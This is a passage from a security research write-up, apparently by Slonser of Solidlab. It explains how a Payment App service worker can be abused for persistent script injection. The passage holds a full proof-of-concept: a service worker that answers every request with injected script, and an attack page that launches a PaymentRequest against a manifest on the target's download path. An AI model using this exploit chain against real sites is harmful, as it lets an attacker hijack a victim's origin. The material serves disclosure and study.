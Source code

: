 At first glance, it may seem not too useful, as why would we process responses coming from Payments. But here, it's worth recalling how the communication between our site and the Payment App is implemented - through Service Workers.

We can specify a Service Worker in Payments, as I mentioned earlier, it's just a regular Service Worker, with additional events provided for it. Therefore, nothing prevents us from using the standard capabilities of the Service Worker.

sw.slonser.js
```javascript
self.addEventListener("fetch", (event) => {
    console.log(`Handling fetch event for ${event.request.url}`);
    let blob = new Blob(["<script>alert('pwned by Slonser')</script>"],{type:"text/html"});
    event.respondWith(new Response(blob));
  });
```
This script intercepts all network requests and responds with HTML:
```html
<script>alert('pwned by Slonser')</script>
```
After this, the attacker just needs to redirect the victim to their domain, where the following code is hosted:

attack.html
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Vsevolod Kokorin (Slonser) of Solidlab</title>
</head>
<body>
    <button onclick="exploit()">EXPLOIT</button>
    <script>
        function exploit(){
            const BASE = "https://example.com/download" // PATH TO DOWNLOAD SCOPE
            const fileName = 'payment-manifest.js' // Name of payment manifest
            const request = new PaymentRequest(
                [{ supportedMethods: `${BASE}/${fileName}` }],
                {
                    id: "order-123",
                    total: {
                    label: "Total",
                    amount: { currency: "USD", value: "1.00" },
                    }
                }
            );

            request.show().then((paymentResponse) => {
                    paymentResponse.complete("success").then(() => {
                });
            }).catch((e) => {
                    document.location = `${BASE}/C4T BuT S4D`;
            });
        }
    </script>
</body>
</html>
```
